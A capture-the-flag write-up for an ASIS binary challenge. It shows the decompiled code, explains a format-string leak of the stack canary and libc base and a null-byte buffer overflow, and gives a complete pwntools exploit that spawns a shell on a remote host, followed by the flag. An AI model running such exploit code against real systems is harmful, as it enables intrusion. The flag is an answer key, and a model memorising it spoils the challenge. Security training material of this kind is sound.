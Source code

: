 The challenge has all the protections:
```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

MAIN:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbx
  int result; // eax
  __int128 v5; // [rsp+0h] [rbp-58h]
  __int128 v6; // [rsp+10h] [rbp-48h]
  __int128 v7; // [rsp+20h] [rbp-38h]
  __int128 v8; // [rsp+30h] [rbp-28h]
  unsigned __int64 v9; // [rsp+48h] [rbp-10h]
  __int64 v10; // [rsp+50h] [rbp-8h]

  v10 = v3;
  v9 = __readfsqword(0x28u);
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  while ( (unsigned int)readline((char *)&v5, 64) )
  {
    __printf_chk(1LL, (__int64)&v5);
    _IO_putc(10, _bss_start);
  }
  result = 0;
  __readfsqword(0x28u);
  return result;
}
```

READLINE:
```c
size_t __fastcall readline(char *s, signed int a2)
{
  size_t result; // rax

  gets();
  result = strlen(s);
  if ( (signed int)result >= a2 )
  {
    puts("[FATAL] Buffer Overflow");
    _exit(1);
  }
  return result;
}
```

After several tests, I found some vulnerabilities:
- format string (without any direct access to the parameters)
- the input is subject to buffer overflow. Because the lenght is checked with `strlen()` (lenght until '\0' character). 
  Inserting the '\0' and adding bytes afterwards generates overflow.

Using the format string I read the canary and the main return address. 
It returns to a point in the libc function '__libc_start_main'. The libc was provided to us.
Analyzing the libc, the main return address is 138135 bytes from the beginning of the libc. We can therefore calculate the libcbase a runtime. 
In the supplied libc there are 2 one gadgets.

The exploit:
- address leak and canary
- libcbase calculation
- overflow by overwriting the return address with the one gadget 

Exploit:
```python
from pwn import *

libc = ELF("./libc-2.27.so")

fms = "%p%p%p%p%p%p%p%p%p%p%p%p%p_%p_%p_%p"
one_gadget1 = 0x4f322
one_gadget2 = 0x10a38c


p = remote("69.172.229.147", 9002)
#p = process("./chall")
p.sendline(fms.encode())
print(p.recvuntil('_'))
canary = int(p.recvuntil('_').decode().replace("_", ""), 16)
p.recvuntil('_')
main242 = int(p.recvuntil('\n').decode().replace("\n", ""), 16)
print("Canary:................",hex(canary))
print("main242:...............",hex(main242))
libcbase = main242-138135   #remote libc
print("libcbase:..............",hex(libcbase))

buf = (("A"*63) + "\0" + ("B"*8)).encode()
buf += p64(canary)
buf += ("A"*8).encode()
buf += p64((libcbase+one_gadget1))
p.sendline(buf)
print(p.recvuntil('\n').decode())
p.sendline("\n".encode())
p.interactive()
```

# FLAG
`ASIS{s3cur1ty_pr0t3ct10n_1s_n07_s1lv3r_bull3t}`
